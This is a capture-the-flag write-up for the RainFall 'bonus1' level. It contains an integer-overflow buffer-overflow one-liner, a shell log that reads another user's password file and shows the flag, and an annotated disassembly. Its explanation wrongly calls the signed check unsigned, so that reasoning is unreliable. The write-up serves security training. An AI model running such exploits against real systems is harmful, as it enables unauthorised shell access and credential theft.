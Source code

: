 
### Solution
```
./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245

-------------------------------

bonus1@RainFall:~$ ./bonus1 
Segmentation fault (core dumped)
bonus1@RainFall:~$ ./bonus1 hello


```
Dump of assembler code for function main:
   0x08048424 <+0>:		push   %ebp
   0x08048425 <+1>:		mov    %esp,%ebp
   0x08048427 <+3>:		and    $0xfffffff0,%esp
   0x0804842a <+6>:		sub    $0x40,%esp						; allocated 64bytes for variables
   0x0804842d <+9>:		mov    0xc(%ebp),%eax					; move ebp+12 to eax (argv[0]?)
   0x08048430 <+12>:	add    $0x4,%eax						; eax = eax+4 = ebp+16 (argv[1])
   0x08048433 <+15>:	mov    (%eax),%eax
   0x08048435 <+17>:	mov    %eax,(%esp)						; move eax to esp (argv[1])
   0x08048438 <+20>:	call   0x8048360 <atoi@plt>				; atoi(esp)
   0x0804843d <+25>:	mov    %eax,0x3c(%esp)					; move return value from atoi to esp+60
   0x08048441 <+29>:	cmpl   $0x9,0x3c(%esp)					; compare to 9 | compare as UNSIGNED int
   0x08048446 <+34>:	jle    0x804844f <main+43>				; if less or equal to 9, jump to 43
   0x08048448 <+36>:	mov    $0x1,%eax						; set eax to 1
   0x0804844d <+41>:	jmp    0x80484a3 <main+127>				; jump to 127
   0x0804844f <+43>:	mov    0x3c(%esp),%eax					; move esp+60 to eax (return value of atoi)
   0x08048453 <+47>:	lea    0x0(,%eax,4),%ecx				; multiply eax by 4??, and store to ecx
   0x0804845a <+54>:	mov    0xc(%ebp),%eax					; move ebp+12 to eax
   0x0804845d <+57>:	add    $0x8,%eax						; eax = eax+8 = ebp+20 (argv[2])
   0x08048460 <+60>:	mov    (%eax),%eax
   0x08048462 <+62>:	mov    %eax,%edx						; move ebp+20 to edx (argv[2])
   0x08048464 <+64>:	lea    0x14(%esp),%eax					; move pointer in esp+0x14 to eax - buffer?
   0x08048468 <+68>:	mov    %ecx,0x8(%esp)					; move ecx (atoi(argv[1]) * 4) to esp+8
   0x0804846c <+72>:	mov    %edx,0x4(%esp)					; move edx (ebp+20) to esp+4
   0x08048470 <+76>:	mov    %eax,(%esp)						; move eax (esp+0x14) to esp
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>			; memcpy(esp+0x14, ebp+20, ecx)
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)			; compare return value of 0x3c(%esp), which is atoi, to 0x574f4c46 (1 464 814 662)
   0x08048480 <+92>:	jne    0x804849e <main+122>				; if not equal, jump to 122
   0x08048482 <+94>:	movl   $0x0,0x8(%esp)					; set esp+8 to 0
   0x0804848a <+102>:	movl   $0x8048580,0x4(%esp)				; x/s: "sh"
   0x08048492 <+110>:	movl   $0x8048583,(%esp)				; x/s: "/bin/sh"
   0x08048499 <+117>:	call   0x8048350 <execl@plt>			; execl("/bin/sh", "sh", 0)
   0x0804849e <+122>:	mov    $0x0,%eax
   0x080484a3 <+127>:	leave  
   0x080484a4 <+128>:	ret    									; return (0)
End of assembler dump.
```

we need argv[1] to be = 0x574f4c46, but because of the check of if nb > 9, return, we can't input it.
However, cmpl compares the atoi result as an unsigned int. We can use a signed int, which will be <=9, and when converted to unsigned will be big enough to overflow our buffer (40 bytes) + the nb we need (0x574f4c46) in memcpy.
In memcpy, we need to take 44 bytes from argv[2] (buffer size (40 bytes) + the nb we want to overwrite (0x574f4c46), which is 4 bytes)
If we convert -2147483637 * 4 to unsigned int, we get 44.

./bonus1 -2147483637 $(python -c "print 'A' * 40 + '\x46\x4c\x4f\x57'")
